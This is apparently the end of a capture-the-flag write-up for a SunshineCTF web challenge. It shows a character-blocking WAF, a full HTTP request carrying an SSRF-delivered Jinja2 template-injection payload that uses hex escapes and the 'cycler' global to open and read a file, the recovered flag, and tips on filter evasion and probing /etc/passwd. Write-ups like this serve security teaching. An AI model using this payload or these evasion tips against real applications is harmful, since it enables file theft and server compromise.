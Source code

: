 ### Source Code Analysis

The returned source code revealed two critical secrets:

1. **The WAF Logic:**
    
    ```python
    if '.' in template_input or '_' in template_input:
        return "Nope."
    
    ```
    
2. **The Flag Location:**
    
    ```python
    FLAG = open("flag.txt").read()
    
    ```
    

### Final Payload to Read the Flag (`/opt/chal/flag.txt`)

Based on the information from the source code, we constructed the final payload to read `flag.txt`.

```
POST /fetch HTTP/2
Host: wormhole.sunshinectf.games
Content-Type: application/x-www-form-urlencoded
Allow: true
Content-Length: 184

url=http://localhost:8000/admin?template={{ (cycler['\\x5f\\x5fin'~'it\\x5f\\x5f']['\\x5f\\x5fglob'~'als\\x5f\\x5f']['\\x5f\\x5fbuilt'~'ins\\x5f\\x5f']['op'~'en']('/opt/chal/flag'~'\\x2e'~'txt'))|join }}

```

## Flag

Executing this final request returned the contents of the flag file.

`sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`

---

## Notes and Tips

- This challenge is a prime example of "slow and steady wins the race." Every failure provides valuable information. Performing small, atomic diagnostic tests that check only a single hypothesis is the key to defeating complex defense systems.
- When facing an SSTI WAF, never assume it only blocks simple keywords. Be prepared to deal with behavioral filters, object taint tracking, and context-aware rules.
- Exploiting lesser-known global objects (`cycler`, `joiner`) is often a blind spot that administrators miss when configuring a sandbox.
- Always remember that a `FileNotFoundError` might be masked by a generic error message. If you believe your payload is correct, try reading a file that is guaranteed to exist (like `/etc/passwd`) to verify your file read capability before hunting for the main target.
